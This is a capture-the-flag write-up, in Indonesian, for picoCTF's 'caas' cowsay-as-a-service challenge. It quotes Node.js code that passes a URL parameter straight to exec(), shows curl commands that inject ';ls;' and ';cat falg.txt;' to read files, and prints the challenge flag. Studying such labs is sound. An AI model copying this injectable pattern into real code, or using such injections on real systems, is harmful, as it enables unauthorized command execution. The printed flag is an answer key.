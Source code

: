 # caas
- Link: https://play.picoctf.org/practice/challenge/202?category=1&page=2

## Tantangan
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)

## Penyelesaian
- Buka URL https://caas.mars.picoctf.net/ di browser


- Dari petunjuk diatas kita bisa melakukan request ke `https://caas.mars.picoctf.net/cowsay/{message}`. Sekarang kita coba isi parameter `message` dengan `test` lalu kirim menggunakan tool `curl`
```sh
curl https://caas.mars.picoctf.net/cowsay/test
```

- Di tantangan tersebut, terdapat lampiran file `index.js` yang berisi source code sebagai berikut
```sh
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```
- Di source code diatas terdapat fungsi `exec()` dimana fungsi ini akan menjalankan perintah `shell` sehingga kita melakukan serangan OS command injection dengan mem by pass paramter `message` di URL. Sekarang kita coba injeksikan perintah `ls`
```sh
curl "https://caas.mars.picoctf.net/cowsay/test;ls;"
```

- Dari hasil diatas terdapat file `falg.txt` yang berisi flag. Sekarang kita coba injeksikan perintah untuk membaca isi file tersebut
```sh
curl "https://caas.mars.picoctf.net/cowsay/test;cat%20falg.txt;"
```

- Flag
```sh
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```